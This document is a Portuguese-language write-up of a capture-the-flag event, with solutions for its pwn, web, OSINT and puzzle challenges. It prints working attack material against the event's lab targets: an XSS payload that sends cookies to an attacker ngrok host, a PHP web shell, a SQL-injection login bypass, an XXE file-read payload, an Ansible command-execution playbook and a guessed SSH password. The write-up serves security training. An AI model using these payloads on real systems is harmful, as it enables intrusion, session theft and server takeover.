            printf("\nAtualmente disponíveis para troca: \n\n");
            printf("1. Pikachu\n");
            printf("2. Charizard 1337\n\n");
            printf("Escolha: ");
            fflush(stdout);
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("\nEsse Pokémom custa 900 moedas cada, insira a quantidade desejada: ");
                fflush(stdout);
                int number_pokemons = 0;
                fflush(stdin);
                scanf("%d", &number_pokemons);
                if(number_pokemons > 0){
                    int total_cost = 0;
                    total_cost = 900*number_pokemons;
                    printf("\nO custo final é: %d\n", total_cost);
                    
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nSeu saldo atual após a transação: %d\n\n", account_balance);
                    }
                    else{
                        printf("Saldo insuficiente para completar a transação\n");
                    }
                    fflush(stdout);
                }
            }
            else if(auction_choice == 2){
                printf("\nCharizard 1337 custa 100000 moedas, e só temos 1 em estoque.\n\n");
                printf("Digite 1 para comprar: ");
                int bid = 0;
                fflush(stdout);
                fflush(stdin);
                scanf("%d", &bid);
                
                if(bid == 1){
                    
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){
                            printf("Flag não encontrada, por favor execute isso no servidor.\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("SEU POKEMON É: %s\n", buf);
                        }
                    
                    else{
                        printf("\n - Saldo insuficiente para a transação.\n\n");
                    }}
            }
            fflush(stdout);
        }
        else{
            con = 1;
        }

    }
    fflush(stdout);
    return 0;
}
```
### Flag
```
ALQ{pok3m00n_th3_flag}
```
### Solução detalhada
O código C se tratava de um sistema de pokedex, onde você podia ver seu saldo e trocar de pokemon. A função mais próxima da flag era a de trocar de pokemon, especificamente trocar pelo Charizard.

Linhas de códigos relacionadas a compra do pokemon Pikachu:
```
if(auction_choice == 1){
	printf("\nEsse Pokémom custa 900 moedas cada, insira a quantidade desejada: ");
	fflush(stdout);
	int number_pokemons = 0;
	fflush(stdin);
	scanf("%d", &number_pokemons);
	if(number_pokemons > 0){
		int total_cost = 0;
		total_cost = 900*number_pokemons;
		printf("\nO custo final é: %d\n", total_cost);
		
		if(total_cost <= account_balance){
			account_balance = account_balance - total_cost;
			printf("\nSeu saldo atual após a transação: %d\n\n", account_balance);
		}
		else{
			printf("Saldo insuficiente para completar a transação\n");
		}
		fflush(stdout);
	}
}
```

Ao analisar as linhas de códigos relacionadas a compra do pokemon Pikachu, é possível observar que há uma vulnerabilidade conhecida como **integer overflow**, ou, estouro de números inteiros:

```
scanf("%d", &number_pokemons);
if(number_pokemons > 0){
	int total_cost = 0;
	total_cost = 900*number_pokemons;
	printf("\nO custo final é: %d\n", total_cost);
	
	if(total_cost <= account_balance){
		account_balance = account_balance - total_cost;
		printf("\nSeu saldo atual após a transação: %d\n\n", account_balance);
	}
```

Após chegar essa conclusão, a vulnerabilidade foi explorada após a escolha do pokemon Pikachu e sua quantidade, onde o payload usado foi ```10000000000000```.


# Mini Web

## Navi GPS (10)
### Descrição

### Solução detalhada

Na aplicação, percebe-se que há a utilização do parametro 'q' para chamar arquivos php no systema.


Dessa maneira, é vulneravél a LFI:


## Ship (10)
### Descrição

### Solução detalhada
Reside na aplicação o endpoint de login


Após análise do código do front end, é achado o arquivo /assets/js/login.js sendo usado.

Lendo esse arquivo, encontram-se credenciais expostas as quais permitem que o atacante acesse o painel


## Safe URL (25)
### Descrição

### Solução detalhada

Aplicação roda um endpoint que provavelmente é vulnerável a SSRF.


Antes de testar pelo ssrf, o código fonte da aplicação mostra algo interessante, um arquivo config.php.


Assim, podemos testar por meio do SSRF e chamar http://127.0.0.1/config.php


E assim obtemos a flag

## Solutions (25)
### Descrição

### Solução detalhada

Nesse cenário, identifica-se a tecnologia ansible sendo usada por meio de uploads sem nenhuma restrição ou filtro, o mesmo pode causar execução remota de comandos na aplicação.


Usando o seguinte yaml
```yaml
- hosts: localhost
  tasks:
    - name: RShell2
      shell: bash -c 'cat /flag.txt >> /var/www/html/index2.html'
```
Podemos pegar a flag criando uma nova index no servidor, e depois ler ela

1. Envie o arquivo para a aplicação
2. Execute-o
3. Acesse index2.html


Flag - ALQ{D3v0ops_4ns1ble_pl4yb00k_Rc3}

## Developer (50)
### Descrição

### Solução detalhada

Observa-se um painel de login na aplicação, que, ao testar, bypassamos o login que é vulnerável a SQL Injection com o payload: ' or 1 -- -


Na pagina settings, iremos abusar da função de File Upload para executar o ataque Unrestricted File upload, permitindo-nos colocar uma web shell no servidor que ira executar comandos.


Crie um arquivo com o seguinte conteudo
```php
<?php echo system($_GET['rce']);?>
```

Acesse-o pelo endpoint /uploads/


Flag - ALQ{P0UC4VULNPR4MU1TOC0D3}

## MDK (50)
### Descrição

### Solução detalhada

Ao entrar na pagina, identificamos uma pagina de login e register


Ao logar, a pagina exibida mostra algumas funções,

A função All tools retorna Access Denied, o que nos faz perceber que existe alguma Authenticação que cuida de premium users, que portanto pode ser explorada.
Retornando a página, analisando os cookies, identifica-se o uso de jwt, assim, decido jogar ele no site jwt.io


E a tal categoria premium está setada para false,
Usando o cyberchef, iremos alterar esse valor para true


Depois, acesse a página novamente


E obtemos a flag.

## External (100)
### Descrição

### Solução detalhada


Ná pagina principal, existe o botão Contact.
Clicando nele, chegamos a pagina contact.php


Ao interceptar a request, percebe-se que está sendo usado XML. Nesse contexto, o backend está renderizando os dados enviados pelo cliente usando XML sem nenhum tipo de proteção.

Nesse caso, é evidente o possível ataque de XXE, o qual explora esse tipo de função para atingir Local File Read ou SSRF.

Enviando o request, o nome é retornado, então é possível usar o nome para refletir um conteúdo do sistema ( Local File Read )


Exploração:


Payload usado:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///flag.txt"> ]>
<contact><first_name>&ent;</first_name><last_name>test</last_name><email>test@gmail.com</email><message>testando</message></contact>
```

Flag: ALQ{XML_3xt3rn4L_3nt1ty_Att4ck_}

## Mico (100)
### Descrição

### Solução detalhada


Neste CTF MICO, na aplicação existem varios endpoins .html, e uma aparente forma de login e sign up que no entanto não funciona.

Depois de analisar e passar pelas paginas, não foi encontrado nada. Assim, ao não encontrar nada, meu time teve a ideia de começar a analisar o que já teria passado pelo site, então, fizemos o uso de crawlers.

Crawler:
```
https://ctf-mico.alquymia.com.br/
https://ctf-mico.alquymia.com.br/cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js
https://ctf-mico.alquymia.com.br/contact.html
https://ctf-mico.alquymia.com.br/css/bootstrap.css
https://ctf-mico.alquymia.com.br/css/font-awesome.min.css
https://ctf-mico.alquymia.com.br/css/responsive.css
https://ctf-mico.alquymia.com.br/css/style.css
https://ctf-mico.alquymia.com.br/doctor.html
https://ctf-mico.alquymia.com.br/favicon.ico
https://ctf-mico.alquymia.com.br/fonts/fontawesome-webfont.woff2?v=4.7.0
https://ctf-mico.alquymia.com.br/images/about-img.jpg
https://ctf-mico.alquymia.com.br/images/contact-img.jpg
https://ctf-mico.alquymia.com.br/images/dots.png
https://ctf-mico.alquymia.com.br/images/logo.png
https://ctf-mico.alquymia.com.br/images/next.png
https://ctf-mico.alquymia.com.br/images/post1.jpg
https://ctf-mico.alquymia.com.br/images/post2.jpg
https://ctf-mico.alquymia.com.br/images/post3.jpg
https://ctf-mico.alquymia.com.br/images/post4.png
https://ctf-mico.alquymia.com.br/images/prev.png
https://ctf-mico.alquymia.com.br/images/slider-img.jpg
https://ctf-mico.alquymia.com.br/images/t1.png
https://ctf-mico.alquymia.com.br/images/t2.png
https://ctf-mico.alquymia.com.br/images/t3.png
https://ctf-mico.alquymia.com.br/images/t4.png
https://ctf-mico.alquymia.com.br/images/team1.jpg
https://ctf-mico.alquymia.com.br/images/team2.jpg
https://ctf-mico.alquymia.com.br/images/team3.jpg
https://ctf-mico.alquymia.com.br/images/treatment-side-img.jpg
https://ctf-mico.alquymia.com.br/js/bootstrap.js
https://ctf-mico.alquymia.com.br/js/custom.js
https://ctf-mico.alquymia.com.br/js/jquery-3.4.1.min.js
https://ctf-mico.alquymia.com.br/robots.txt
https://ctf-mico.alquymia.com.br/testimonial.html
```

Nele, verificamos a existencia de https://ctf-mico.alquymia.com.br/robots.txt, que ao entrar na url, dizia 404. Nesse contexto, começamos a pensar o por que não estaria ali, que nos levou ao seguinte pensamento: "Será que algums arquivos / folders foram escondidos?", assim passamos a usar o wayback machine para verificar.

Ao usar o wayback machine para verificar a existência de robots.txt, obtivemos uma resposta muito interessante:


Foi comprovada a existência de um folder com nome db-0898343234/

ao acessar ele, é retornado forbidden, mas ao entrar em db-0898343234/flag.txt, encontramos a flag.


Flag: ALQ{hidden_wayback}

## Notes (150)
### Descrição

### Solução detalhada


Primeira página da aplicação, mostra Sign in e Sign up.
Dessa maneira, vamos criar uma conta e logar.


A aplicação roda algo como um sistema de notas, o qual utiliza ID's para chamar notes salvadas.


Assim, torna-se evidente uma possível exploração de IDOR, visto que existe a utilização de ID's para identificação de objetos no servidor sem nenhum tipo de filtro ou proteção.

Ao percorrer os ID's possíveis, encontra-se a flag no ID 35


Flag: ALQ{1ns3cur3_d1r3cT_0bj3cT_R3f3r3nc3s}

## Techport (150)
### Descrição

### Solução detalhada


Primeira página da aplicação, mostra algums lorem ipsum, e um botão de dashboard no canto superior direito.

Ao clicar, é obtido um erro:


A Aplicação web está utilizando de um parametro chamado auth para setar se o usuário está autenticado ou não.

Assim, executamos o ataque trocando o valor para true, para dizer que estamos autenticados para o servidor web.


## Defense and Attack (200)
### Descrição
No mundo de segurança você vai precisar em alguns momentos atacar:

[https://ctf-attack.alquymia.com.br/](https://ctf-attack.alquymia.com.br/)

E defender:

[https://ctf-defense.alquymia.com.br/](https://ctf-defense.alquymia.com.br/)

Juntando os dois mundos você vai conseguir ser um bom profissional.
### Flag
```
ALQ{@taqu3_e_def3nce_is_fun}
```
### Solução detalhada

#### Attack
Para esse desafio, era preciso burlar o **Content-Secure-Policy** (CSP), que estava definido como:

```
Content-Security-Policy: script-src 'self' https://alquymia.com.br data:
```

Para burlar, utilizamos o seguinte payload de Cross-site Scripting:

```
<script src=data:text/javascript,fetch("https://SUA_URL.ngrok-free.app/?"+document.cookie)></script>
```

Utilizamos a ferramenta Ngrok junto com Python para abrir uma porta HTTP. Com sucesso conseguimos obter a primeira parte da flag.


#### Defense


No código fonte front-end do site, havia esses códigos Javascript que eram executados:


O objetivo era permitir apenas os códigos Javascript com a tag ```SEGURO*```.

Observamos que o primeiro código Javascript havia um nonce, então desenvolvemos um CSP para permitir apenas ele.

```
script-src 'nonce-no23h3v8bg';
```

Com sucesso conseguimos permitir.


Para permitir o segundo código Javascript, geramos uma hash SHA256 de ```console.log("__SEGURO2__")``` com o comando ```echo -n 'console.log("__SEGURO2__")' | openssl sha256 -binary | openssl base64```


Montamos o CSP e validamos ele no site:

```
script-src 'sha256-hii6FQk1E5f+ah0rqHNz3DAMNR2abz87DrsJsihCDjU=';
```


Posteriormente juntamos os dois CSP e enviamos para o site, que com sucesso, retornou a outra parte da flag, formando a flag ```ALQ{@taqu3_e_def3nce_is_fun}```.

```
script-src 'sha256-hii6FQk1E5f+ah0rqHNz3DAMNR2abz87DrsJsihCDjU=' 'nonce-no23h3v8bg';
```


# Osint

## Informações de um arquivo! (10)
### Descrição
Será que teremos como ver meta-dados desse arquivo? Reponda com a qualidade da imagem dentro da flag: ALQ{resposta}
### Arquivos anexados
* [viagem-de-ferias-para-o-peru-capa-1920x520.jpg](files/viagem-de-ferias-para-o-peru-capa-1920x520.jpg)
### Flag
```
ALQ{82}
```
### Solução detalhada
Para esse desafio, foi utilizado apenas a ferramenta **exiftool** para obter a qualidade da imagem.


## Rastreio de IP (10)
### Descrição

Um hacker conseguiu invadir um sistema de câmera de um hospital, mas antes de desconectar um dos funcionários da equipe de TI conseguiu capturar um IP de origem: 177.45.70.184. A partir dessa evidência descubra o ownerid desse IP e responda com a resposta no padrão solicitado. Exemplo: ALQ{respostadapergunta}

### Flag

ALQ{02.558.157/0001-62}

### Solução detalhada

Para resolvermos este desafio, é bem simples, basta apenas usarmos o whois, e usar o grep no ownerid deste endereço de ip: 177.45.70.184


## Dispositivo Antigo (25)
### Descrição

Uma challenge no qual o objetivo é fazer um osint em um usuário no clube do hardware, e achar um produto.

### Flag

ALQ{VGA 128 Mb AGP G-Force3 MSI TI 200 8850}

### Solução detalhada

Este desafio de osint, levou um pouco mais de tempo do que os outros. Mas no enunciado tem um usuario chamado "flavioac", e a quantia em dolar que é de 137 e o site do clube do hardware.


Após dorkar, encontramos um post do usuario "flavioac" em um topico do forum do clube do hardware, agora podemos analisar este perfil com mais calma.


Depois de muita procura no perfil dele, sobre algum produto que estava vendendo, dorkando com U$ 137

Achei um tópico na página 4, aonde ele fez um post dizendo que queria vender "mqs de médio desempenho", e lá estava o produto de U$ 137,00


link do tópico: https://www.clubedohardware.com.br/profile/283518-flavioac/content/page/4/?type=forums_topic
link da publicação: https://www.clubedohardware.com.br/forums/topic/10888-vou-vender-mqs-de-m%C3%A9dio-desempenho/

## Encontre a fotógrafa (25)
### Descrição
Pedro está buscando o amor da sua vida que encontrou em uma rede social profissional. Mas por algum motivo do destino ele não lembra do seu nome completo, mas lembra de alguns pontos marcantes:

- Seu nome era Manuela Ribeiro;
- Possui formação Academica no Senac São Paulo;
- Mora no Rio de Janeiro;

Será que você conseguirá encontrar a pessoa correta? Pontue achando a flag em uma de suas publicações.
### Flag
```
ALQ{@rt1g0-@lQuYm1@}
```
### Solução detalhada
Começamos com uma simples pesquisa no Google para encontrar o perfil da Manuela.


Após visualizar seu perfil, observamos que ela estava anunciando o CTF da Alquymia. Vasculhando suas publicações, descobrimos um artigo sobre o mesmo CTF.


Visitando a publicação, podemos encontrar a flag na última linha.


## Hidden Flag (50)
### Descrição
Em algum lugar do Youtube do ooclaar possue uma flag escondida. Encontre-a.
### Flag
```
ALQ{hidden_texT}
```
### Solução detalhada
Ao acessar o canal do ooclaar, encontramos um vídeo onde havia um conteúdo em base32 na descrição.


Ao decodificar o valor base32, recebemos a flag.


## Investigação de Voo (50)
### Descrição
Você foi contratado para encontrar discrepancias nos voo do sistema área brasileiro. Fazendo uma analise dos meados de maio de 2023 da aeronave PTB2322, existe uma data que possui uma rota para um destino bem incomum. Sabendo disso, responda a flag ALQ com as seguintes informações:

ALQ{cargo-que-aparece-no-destino--primeiro-nome-do-individuo--hora-da-chegada}

OBS: A resposta estará TODA em minusculo, incluindo a hora. OBS1: Se uma parte da resposta tiver espaços, será separado por - OBS2: A separação de um dado por outro será separado por -- OBS3: A hora deve estar no formato XX:XXvv, sendo vv pm ou am.
### Flag
```
ALQ{deputado--luis--12:34pm}
```
### Solução detalhada
Ao pesquisar sobre a aeronave PTB2322 no site [Flightaware](https://www.flightaware.com/), encontramos vários voos realizados.


Começamos a analisar o voo da data 28/05/2023.

O formato da flag é:

```
ALQ{cargo-que-aparece-no-destino--primeiro-nome-do-individuo--hora-da-chegada}
```

Com base nessa informação, começamos montando a primeira parte:

```
ALQ{deputado--luis--}
```

Ao acessar sobre o voo com mais detalhes, encontramos o horário de chegada.


Com essa informação, juntamos ela a outra parte da flag, formando ```ALQ{deputado--luis--12:34pm}```.

## A melhor rua para um gato! (100)
### Descrição

Osint em uma cidade, a procura por uma rua que tem haver com "gatos".

### Flag

ALQ{Mial-St}

### Solução detalhada

 O proprio enunciado dessa challenge nos deu uma pista, sobre como achar essa tal rua.

 

 Procurando pela Raleigh, NC, USA no google maps, e adicionando miau, podemos ver a seguinte rua.

 

 Agora ao clicarmos naquele endereço no google maps, podemos ver uma rua chamada Miaul St, e essa é a nossa flag.

 

# Outros

## Look_Find_Replace (10)
### Descrição

### Arquivos anexados

* [LookFindReplace.txt](files/LookFindReplace.txt)
```
-0-1-0-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-1-0-1-0-0 -0-1-1-0-0-1-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-1-0-1 -0-1-1-0-1-1-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-0-0-0-0-1 -0-1-1-0-0-1-1-0 -0-1-1-0-1-0-0-1 -0-1-1-0-1-1-1-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-0-0-1-0-1 -0-1-1-0-1-1-1-0 -0-1-1-1-0-1-1-0 -0-1-1-0-1-1-1-1 -0-1-1-0-1-1-0-0 -0-1-1-0-0-1-0-0 -0-1-1-0-1-0-0-1 -0-1-1-0-0-1-0-0 -0-1-1-0-1-1-1-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-0-0-0 -0-1-1-0-0-1-0-1 -0-1-1-0-1-1-0-0 -0-1-1-0-0-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-0-1-1 -0-1-1-0-1-1-1-1 -0-1-1-0-1-1-0-1 -0-1-1-1-0-1-0-1 -0-1-1-0-1-1-1-0 -0-1-1-0-1-0-0-1 -0-1-1-0-0-1-0-0 -0-1-1-0-0-0-0-1 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-0-1-0-0-0-0-0 -0-1-0-0-0-0-0-1 -0-1-1-0-1-1-0-0 -0-1-1-1-0-0-0-1 -0-1-1-1-0-1-0-1 -0-1-1-1-1-0-0-1 -0-1-1-0-1-1-0-1 -0-1-1-0-1-0-0-1 -0-1-1-0-0-0-0-1 -0-0-1-0-1-1-0-0 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-1-0-1-0 -1-1-1-0-0-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-0-0-1 -0-1-1-0-0-1-1-1 -0-1-1-1-0-0-1-0 -0-1-1-0-0-0-0-1 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-1-1-0-0-0-1-1 -0-1-1-0-0-1-0-1 -0-1-1-0-1-1-0-1 -0-1-1-0-1-1-1-1 -0-1-1-1-0-0-1-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-0-1-1 -0-1-1-1-0-1-0-1 -0-1-1-0-0-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-0-0-0 -0-1-1-0-0-0-0-1 -0-1-1-1-0-0-1-0 -0-1-1-1-0-1-0-0 -0-1-1-0-1-0-0-1 -0-1-1-0-0-0-1-1 -0-1-1-0-1-0-0-1 -0-1-1-1-0-0-0-0 -0-1-1-0-0-0-0-1 -1-1-1-0-0-1-1-1 -1-1-1-0-0-0-1-1 -0-1-1-0-1-1-1-1 -0-0-1-0-1-1-1-0 -0-0-0-0-1-0-1-0 -0-0-0-0-1-0-1-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-0-1-0-0-0-0-0 -0-1-0-0-0-1-0-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-0-0-0 -0-1-1-0-0-0-0-1 -0-1-1-1-0-0-1-0 -0-1-1-0-0-0-0-1 -0-1-1-0-0-0-1-0 -0-1-1-0-0-1-0-1 -0-1-1-0-1-1-1-0 -0-1-1-1-0-0-1-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-0-0-0 -0-1-1-0-1-1-1-1 -0-1-1-1-0-0-1-0 -0-0-1-0-0-0-0-0 -0-1-1-0-0-0-1-1 -0-1-1-0-1-1-1-1 -0-1-1-0-1-1-1-0 -0-1-1-1-0-0-1-1 -0-1-1-0-0-1-0-1 -0-1-1-0-0-1-1-1 -0-1-1-1-0-1-0-1 -0-1-1-0-1-0-0-1 -0-1-1-1-0-0-1-0 -0-0-1-0-0-0-0-0 -0-1-1-0-0-0-1-1 -0-1-1-0-1-1-1-1 -0-1-1-0-1-1-1-0 -0-1-1-0-0-0-1-1 -0-1-1-0-1-1-0-0 -0-1-1-1-0-1-0-1 -0-1-1-0-1-0-0-1 -0-1-1-1-0-0-1-0 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-1-0-0-1-1 -0-1-1-0-0-1-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-0 -0-1-1-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-0-0-0-0-1 -0-1-1-0-0-1-1-0 -0-1-1-0-1-0-0-1 -0-1-1-0-1-1-1-1 -0-0-1-0-1-1-0-0 -0-0-1-0-0-0-0-0 -0-1-1-0-0-0-0-1 -0-1-1-1-0-0-0-1 -0-1-1-1-0-1-0-1 -0-1-1-0-1-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-0-1 -0-1-1-1-0-0-1-1 -0-1-1-1-0-1-0-0 -1-1-1-0-0-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-1-0-0-1-1 -0-1-1-1-0-1-0-1 -0-1-1-0-0-0-0-1 -0-0-1-0-0-0-0-0 -0-1-1-0-0-1-1-0 -0-1-1-0-1-1-0-0 -0-1-1-0-0-0-0-1 -0-1-1-0-0-1-1-1 -0-0-1-1-1-0-1-0 -0-0-0-0-1-0-1-0 -0-0-0-0-1-0-1-0 -0-1-0-0-0-0-0-1 -0-1-0-0-1-1-0-0 -0-1-0-1-0-0-0-1 -0-1-1-1-1-0-1-1 -0-1-0-0-0-0-1-0 -0-0-1-1-0-0-0-1 -0-1-1-0-1-1-1-0 -0-1-0-0-0-0-0-0 -0-1-1-1-0-0-1-0 -0-1-1-1-1-0-0-1 -0-0-1-0-1-1-0-1 -0-0-1-1-0-0-0-1 -0-1-1-1-0-0-1-1 -0-0-1-0-1-1-0-1 -0-1-1-1-0-1-1-1 -0-0-1-1-0-0-0-0 -0-1-1-0-1-1-1-1 -0-0-1-1-0-0-0-0 -0-1-1-0-1-1-1-0 -0-1-1-0-0-1-0-0 -0-0-1-1-0-0-1-1 -0-1-1-1-0-0-1-0 -0-1-1-0-0-1-1-0 -0-0-1-0-0-1-0-1 -0-0-1-0-0-1-0-1 -0-1-1-1-0-1-0-1 -0-1-1-0-1-1-0-0 -0-1-0-0-1-1-0-0 -0-1-1-1-1-1-0-1
```
### Flag
```
ALQ{B1n@ry-1s-w0o0nd3rf%%ulL}
```
### Solução detalhada
Ao abrir o arquivo, nos deparamos com uma mensagem codificada em binário, porém com vários hífens. Usamos a ferramenta CyberChef para arrumar a mensagem e decodifica-lá.


## Looping (10)
### Descrição

Essa challenge consistia em decodar o base64 em 15 vezes, após fazer isso, obteremos a flag.

### Flag

ALQ{N1c3_l0oP1nng}

### Solução detalhada

Essa challenge consistia em decodar o base64 em 15 vezes, após fazer isso, obteremos a flag.

E para automatizar isso, em vez de testar tudo na mão, criei um simples script em bash para poder automatizar.

```
#!/bin/bash

echo -n "Base64 aq pai: "
read base64_string

decoded_string="$base64_string"

for (( i=1; i<=15; i++ )); do
    decoded_string=$(echo "$decoded_string" | base64 -d 2>/dev/null)
    echo "flag pra tu bb $i: $decoded_string"
done
```


## As mãozinhas (25)
### Descrição

Uma simples challenge envolvendo base64 e vigenere.

### Flag

ALQ{l1br@s_e_legal}

### Solução detalhada

Nesta challenge, podemos usar o exiftool no mp4, e podemos ver que nele há um base64, que ao decodar, ele nos dá uma mensagem cifrada, que é uma cifra de vigenere e nela teremos que ter uma chave para poder decodificar. A chave para decodificar a mensagem cifrada está no video, que é as mãozinhas em libras, que formam: CRIPTO, ou seja, essa é a nossa key.


## Não é IPv4 (25)
### Descrição

Scanning no Ipv6 usando nmap + usando nc para se conectar no ipv6 na porta 3335 e por fim, um simples buffer overflow.

### Flag

ALQ{Buffer_over_cmd}

### Solução detalhada

Essa challenge, consistia em fazer um scan no ipv6 usando nmap (a flag -6 do nmap é utilizada para fazer scanning/varredura em um ipv6), após encontrar as portas abertas, podemos ver uma porta "3335", podemos utilizar o nc -6 para se conectar nela, quando nos conectamos nos deparamos com um simples buffer overflow, e é so prencher com vários "A", que o buffer estoura, e obtemos a flag.

Comando utilizado no nmap: nmap -vvv -p- -6 2001:19f0:5:14f0:5400:4ff:fe78:b66c


## O Banco Alq (50)
### Descrição
Parece que a equipe de desenvolvimento do Alquymia lançou um banco, mas o site está oculto juntamente com diversas outras informações importantes. Só sobrou o DNS para buscar alguma coisa...

[http://bancoalq.com.br/](http://bancoalq.com.br/)
### Flag
```
ALQ{flag_over_dns}
```
### Solução detalhada
Para enumerar informações sobre o DNS, pesquisamos o domínio no site [SecurityTrails](https://securitytrails.com/). Encontramos alguns subdomínios pertencentes ao domínio.


Usando a ferramenta **dig** do Linux, começamos a buscar informações TXT dos subdomínios. Encontramos uma mensagem em Base32 e decodificamos.


## O código obscuro (50)
### Descrição
Em uma investigação em uma empresa, encontramos um código estranho que possui uma flag escondida. Será que você vai conseguir capturar a flag?
### Arquivos anexados

* [codigo_misterioso.txt](files/codigo_misterioso.txt)
### Flag
```
ALQ{CNC_e_um_terror}
```
### Solução detalhada
Ao analisar o arquivo, percebemos a presença de algumas posições nas linhas do arquivo. Fazendo uma pesquisa no Google, encontramos um [site](https://ncviewer.com/) que visualizava arquivos GCode. Importamos o arquivo e recebemos a flag em seguida.


## Roubo ao Museu (50)
### Descrição
Atenção, falou o **Arkham** a policia local, roubaram um quadro de arte e deixaram apenas uma carta com códigos bem estranhos.


### Arquivos anexados
carta.txt

```
D'`_@?K\~5k92xwvR-?+=M_^nJ7#"h~DCA@@b=_;)yrqpotm3qpoQPlkd*bg`e^]#aC_X|\>=YXWPOs65KJOHlL.JIHG@dDCB$@?>=<5Y3876/.3,P0po'&+$#(!E%$dc!x>|{z\xwp6tVrkjoh.fNjc)gfH%cbaZYX|\>=YXQuUTMRQJnHMLKDhHGFEDCB;_"!7[|{9870Tut,+0)M-,+$#G!~D$#zy~wv<tsxqpo5sUkpih.lkjLKa'edFEa`_X|\>=YXWPOsSR43ImM/EDCgAF?>=a;@98=<;4X8xw/43,P0)o'&J$#(!~D|B"!x}|u;yxZvo5Vlqpih.fN+iKJ`ed]b[!_X]VzZ<Rv9ONSRQJIm0/KJCBAeE>&<`#?8\<5{3Wxw/43,P0/.-m%*#G'&%$#"baw=uzyxqpo5sUkpohg-kjLKgfed]#DZYX|V[ZYXWPOs65QJnNG/EiCBGF?cCB;:?8\<5{3W10T4ts10)Mnm%*#"Fg}|{Aba}v{ts9Zvo5srqSi/gfkdib(Ie^]ba`Y}]\[Z<RvV8NSRKJn1MFj-,HGF?>b<;:?87[;:z81Uvu-2+Op.'&%I)(h&}|#"y?}_{t:[q7$
```
### Flag
```
ALQ{m4lb0lg3_3h_c0isa_d3_l0uco}
```
### Solução detalhada
Observando o conteúdo de carta.txt, notamos que há vários caracteres em desordem. Mas se colocarmos nossos neurônios para pensar, podemos lembrar de um interpretador de uma linguagem muito conhecida por ser extremamente complexa, a linguagem esotérica famosa por sua complexidade é a **Malbolge**. Através de um [site](https://malbolge.doleczek.pl/) de interpretação de códigos Malbolge, conseguimos decodificar a mensagem:


## Onion Services (100)
### Descrição
Agora o ooclaar começou a desenvolver serviços ocultos na Rede Onion. Será que você será capaz de achar a flag?

[Link Onion](http://4g4relhctallxqhfhnectjopmcdw7do2p6afqtnl5xjf7a2oalo65vid.onion/)
### Flag
```
ALQ{Th3_onion_serv1c3}
```
### Solução detalhada
Ao acessar o site na rede onion e fazer um rápido reconhecimento, encontramos um arquivo ```robots.txt``` com um diretório chamado ```/s3cre3t```.


Ao visitar o diretório, encontramos um arquivo ```index.php``` pertencente ao phpmyadmin, que não estava funcionando.


Utilizamos a ferramenta ffuf para procurar por arquivos txt no diretório encontrado, e com sucesso, encontramos o arquivo ```note.txt```.


Segundo a mensagem, a politica de senhas exige uma senha forte, e o Douglas trocou a senha de Ooclaar (```S3nh@F@ciL2022!```) alterando apenas 1 dígito.

Algumas portas foram encontradas após a inicialização da ferramenta de port scanning **rustscan**, sendo elas, FTP (porta 21), SSH (porta 22), e HTTPD (porta 80).


Trocamos o dígito ```2022``` da senha do ooclaar para ```2023``` e validamos no servidor SSH. Usamos o comando ```proxychains ssh ooclaar@4g4relhctallxqhfhnectjopmcdw7do2p6afqtnl5xjf7a2oalo65vid.onion # senha: S3nh@F@ciL2023!```.


## Publicidade de Limpeza (100)
### Descrição

### Arquivos anexados

### Flag

### Solução detalhada

# Pwn

## Pwn01 (10)
### Descrição
nc 45.63.104.42 2331

### Arquivos anexados
pwn01.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
  
char buf[32];
  
int main()
{
        int fd;
        int len = 0;
        int num;
        scanf("%d", &num);
        fd = num - 0xcafe;
        len = read(fd, buf, 32);
        if(!strcmp("ALQUYMIA\n", buf))
        {
                printf("Parabens, pegue sua flag: ");
                printf("ALQ{?}\n");
        }
        return 0;
  
}
```

### Flag
